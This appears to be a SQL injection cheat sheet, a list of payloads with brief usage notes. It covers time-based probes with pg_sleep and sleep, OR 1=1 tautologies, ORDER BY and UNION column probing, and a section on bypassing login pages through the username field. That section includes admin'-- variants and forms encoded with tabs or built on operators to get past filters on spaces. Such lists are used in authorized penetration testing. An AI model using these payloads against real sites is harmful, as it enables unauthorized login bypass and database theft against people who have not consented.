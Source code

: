 ```
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))

(SELECT 1)
(SELECT 1+1)
(SELECT 'inputword’)

’ OR 1=1 -- 
OR 'a’=’a’-- 
1 OR 'a’=’a’--

If the first payload below returns a successful response and the second payload returns a false response, jump to the union select section.
' ORDER BY 1 --
' ORDER BY 25 --

### OR Sandwich Section
' OR 1=1 OR '
' OR sleep(5) OR '
'||(SELECT version())||'

### UNION SELECT Section
OR (1=1
1) OR (1=1
’) OR 1=1

```

### SQL Injection on Login Pages

**Resources:** https://unix.stackexchange.com/questions/391866/regex-for-password-restricting-special-characters

**Real-World Examples:** https://hackerone.com/reports/447742

**Username Field:**
```
'
''

admin' AND 1=1-- (may need different comment or space at end of comment)
admin'--
admin')--
admin' or 1=1--
admin') or 1=1-- -

If multiple accounts are being returned, we can use the following:
admin' or 1=1 limit 1 --

If spaces are not allowed, we can use  which needs to be encoded in our situation:
admin'%09OR%091=1%09--%09

If tabs and spaces are blocked:
admin'||1=1#
admin'||1#
```
